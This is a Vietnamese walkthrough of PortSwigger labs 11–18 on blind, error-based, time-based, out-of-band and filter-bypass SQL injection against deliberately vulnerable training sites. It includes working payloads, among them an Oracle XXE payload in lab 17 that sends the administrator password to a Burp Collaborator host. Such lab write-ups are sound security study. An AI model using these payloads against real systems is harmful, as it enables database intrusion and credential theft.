





# [Lab 11: Blind SQLi with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

> - **Mô tả lab:** Lab chứa lỗi SQLi. sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi. Kết quả của truy vấn không được trả về và không có thông báo lỗi nào được hiển thị. Tuy nhiên, có thông báo `Welcome back` nếu truy vấn trả về kết quả.
>
> - **Database:** bảng `users` chứa 2 cột `username` và `password`. Khai thác `blind SQLi` tìm password của `administrator`.
>
> - **Mục tiêu:** đăng nhập thành công với tài khoản admin.

trang web chính

khi thực hiện filter, ta thấy có message `Welcome back!`

test các tham số thì ta thấy khi thêm `'` ở `trackingId` thì message `Welcome back!` biến mất rồi

khi thêm `--` thì message đã trở lại → SQLi ở trackingId và khi query của ta đúng sẽ có message `Welcome back!` còn khi sai thì không

Vì có kết quả trả về kiểu True/False nên đây là một cuộc tấn công Blind SQLi, do đó ta sẽ sử dụng các payload điều kiện trả về True/False

check bảng `users`

message xuất hiện → có username là `administrator` từ bảng `users`

trước hết phải đoán độ dài của password đã để tiết kiệm thời gian do ta phải dò từng ký tự trong mật khẩu

`' AND (SELECT LENGTH(password)=1 FROM users WHERE username='administrator')--`

vậy là password có 20 ký tự, tìm từng ký tự thôi

`' AND (SELECT SUBSTR(password,1,1)='a' FROM users WHERE username='administrator')--`

login and solve the lab

# [Lab 12: Blind SQLi with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

> - **Mô tả lab:** Lab chứa lỗi SQLi, sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi. Kết quả của truy vấn không được trả về và ứng dụng không phản hồi theo bất kỳ cách nào khác nhau dựa trên việc truy vấn có trả về bất kỳ hàng nào hay không. Nếu truy vấn SQL gây ra lỗi thì ứng dụng sẽ trả về thông báo lỗi tùy chỉnh.
>
> - **Database:** bảng `users` chứa 2 cột `username` và `password`. Khai thác `blind SQLi` tìm password của `administrator`.
>
> - **Mục tiêu:** đăng nhập thành công với tài khoản admin.

Đây là trang web chính của bài lab, ta dễ thấy có các chức năng

- `Filter:` lọc các kết quả của tìm kiếm search

- `View details:` xem chi tiết sản phẩm

- `My account:` login và profile của account đăng nhập

test các tham số thì khi thêm `'` ở `trackingId` thì hiển thị thông báo lỗi `500 Error`

Tuy nhiên khi thêm `'` thì lại duyệt web bình thường

Tiếp theo cần xác định xem web sử dụng database nào

phải có `FROM` → duyệt web bình thường → Database: Oracle

`' || (SELECT '' FROM users WHERE ROWNUM = 1) ||'`

- truy vấn không lỗi nên tồn tại bảng `users`

- `WHERE ROWNUM=1` tránh truy vấn trả về nhiều hàng để nối xâu được thực hiện

`' || (SELECT username FROM users WHERE ROWNUM = 1) ||'`

- truy vấn không lỗi nên tồn tại `username` và `password`

cũng duyệt bình thường nên xác định có username `administrator`

→ Response thông qua lỗi → Blind SQLi → còn có thể sử dụng payload: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`

- để các điều kiện đúng trả về kết quả sai (biểu thức chia cho 0 sẽ gây ra lỗi) để có thế giới hạn Request giúp tìm kiếm nhanh hơn

- các điểu kiện sai sẽ duyệt web bình thường

giờ tìm password thôi, trước hết dò xem có bao nhiêu ký tự đã, sử dụng Intruder test → pass 20 ký tự

giờ phải dò từng ký tự

login and solve lab

# [Lab 13: Visible error-based SQLi](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

> - **Mô tả lab:** Lỗi SQLi, sử dụng `tracking` cookie để truy vấn SQL, kết quả của truy vấn không được trả về.
>
> - **Database:** table `users` có 2 cột `username` và `password`.
>
> - **Mục tiêu:** tìm cách lấy password của `administrator` và đăng nhập.

main web

test các tham số khi thêm `'` vào `trackingId` thì có thông báo lỗi

tuy nhiên khi thêm `--` thì duyệt web bình thường rồi

Qua thông báo ta thấy Query là `SELECT * FROM tracking WHERE id='...'`, ta chèn SQLi vào câu lệnh `SELECT` và đang truy vấn với điều kiện nên ta sẽ chèn các điều kiện vào để khai thác.

Test điều kiện đúng thì duyệt web thành công rồi

Test thành một câu lệnh sai thì lại tiếp tục thông báo lỗi, qua thông báo lỗi thì ra thấy phần được `SELECT` sẽ hiển thị trong lỗi

giờ ta check bảng `users` thì lại có thông báo lỗi và qua đây ta thấy là tồn tại bảng `users` và chỉ hiển thị kết quả trên 1 dòng.

sử dụng `LIMIT 1` để hiển thị 1 dòng thì ta thấy đã bị giới hạn ký tự

bỏ bớt ký tự và truy vấn `username` thì kết quả `SELECT` ở dòng đầu là `administrator` luôn, quá tuyệt.

vậy thì `LIMIT 1` tiếp với password thì kết quả trong lỗi sẽ chính là password của `administrator`

có tài khoản và mật khẩu rồi, login và solve

# [Lab 14: Blind SQLi with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

> - **Mô tả lab:** lỗi SQLi, sử dụng tracking cookie thực hiện truy vấn SQL, kết quả truy vấn đều không được trả về hay gây ra lỗi, tuy nhiên có thể kích hoạt thời gian trễ.
>
> - **Mục tiêu:** khai thác và gây ra trễ 10s.

tìm payload kích hoạt time delays

solve the lab

# [Lab 15: Blind SQLi with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

> - **Mô tả lab:** lỗi SQLi, sử dụng tracking cookie thực hiện truy vấn SQL, kết quả truy vấn đều không được trả về hay gây ra lỗi, tuy nhiên có thể kích hoạt thời gian trễ.
>
> - **Database:** table `users` có 2 cột `username` và `password`.
>
> - **Mục tiêu:** tìm cách lấy password của `administrator` và đăng nhập.

main web

tìm payload kích hoạt time delays thành công

ngoài ra ta sẽ sử dụng các điều kiện và dùng `CASE WHEN` để lọc, các điều kiện đúng sẽ kích hoạt thời gian trễ

vẫn là dùng Intruder để test, ta cần mở thêm column `Response time` để quan sát payload có thời gian dài nhất (do thời gian phản hồi bị trễ) đó chính là payload mà ta cần

payload 20 có thời gian phản hồi lâu nhất, vậy là pass 20 ký tự, tiếp theo ta cần tìm từng ký tự bằng cách test lần lượt

check tiếp các ký tự còn lại sẽ ra password

ngoài ra, ta có thể test ngay 2 position

→ pass `h6gm0gaxrw9fg3jafejz`

# [Lab 16: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

> **Mô tả lab:**
> - lỗi Blind SQLi, sử dụng cookie `trackingId` và truy vấn SQL. Truy vấn SQL được thực thi không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác OOB.
>
> **Mục tiêu:**
> - khai thác để thực hiện tra cứu DNS cho Burp Collaborator.

Trang web chính

Cookie chứa `trackingId`

Trước hết tạo 1 Burp Colaborator 

tìm payload để thực hiện OOB: `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`

Kích hoạt DNS thành công

solve lab

# [Lab 17: Blind SQL injection with out-of-band data exfiltration]()

> **Mô tả lab:**
> - lỗi Blind SQLi, sử dụng cookie `trackingId` và truy vấn SQL. Truy vấn SQL được thực thi không đồng bộ và không ảnh hưởng đến response. Tuy nhiên, bạn có thể kích hoạt các tương tác OOB.
>
> - bảng `users` chứa 2 cột `username` & `password` và user `administrator`
>
> **Mục tiêu:** Khai thác tìm password và đăng nhập với tài khoản `administrator`. 

cookie chứa `trackingID`

Trước hết tạo 1 Burp Colaborator 

tạo payload: `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.o6vf7kbn23qsvdgsi6ewhuzjya41stgi.oastify.com/"> %remote;]>'),'/l') FROM dual--`

kích hoạt thành công và thấy password rồi

login and solve lab

# [Lab 18: SQLi with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

> **Mô tả lab:**
> - Lỗi SQL Injection ở tính năng Check stock.
>
> - Kết quả từ request sẽ được trả về trong response → sử dụng `UNION attacks` để truy xuất dữ liệu từ bảng khác.
> 
> - bảng `users` chứa thông tin username và password của người dùng.
>
> **Mục tiêu:** đăng nhập với tài khoản của `administrator`

main web

lỗi SQLi ở function `Check stock`

Request gửi đi chứa 1 đoạn XML tìm đến productId và storeId để check

sửa `storeId` thành 1 phép tính coi sao, vẫn nhận được dữ liệu đúng với `storeId=2` là store `Paris` → đầu vào không được kiểm soát

thực hiện tấn công SQLi thì bị phát hiện

tiến hành bypass bằng `base64-encode` thì thấy lại duyệt bình thường

ta thấy có kết quả trả về rõ ràng, thực hiện `UNION attacks`

- trước hết cần xác định số cột

→ có 1 cột

- thực hiện `UNION attacks` để tìm tên bảng thì lại phát hiện tấn công

→ tiếp tục tìm cách encode, base64-encode không ok → đổi sang `HTML-encode` thì ra rồi

- tìm được bảng `users` rồi, ta tiếp tục tìm tên các cột

do chỉ có 1 cột nên ta không thể thực hiện `UNION attacks` để SELECT 2 cột cùng lúc được, có thể tìm username trước rồi tìm password, tuy nhiên dùng nối xâu luôn cho nhanh

tìm thấy password rồi, login và solve lab

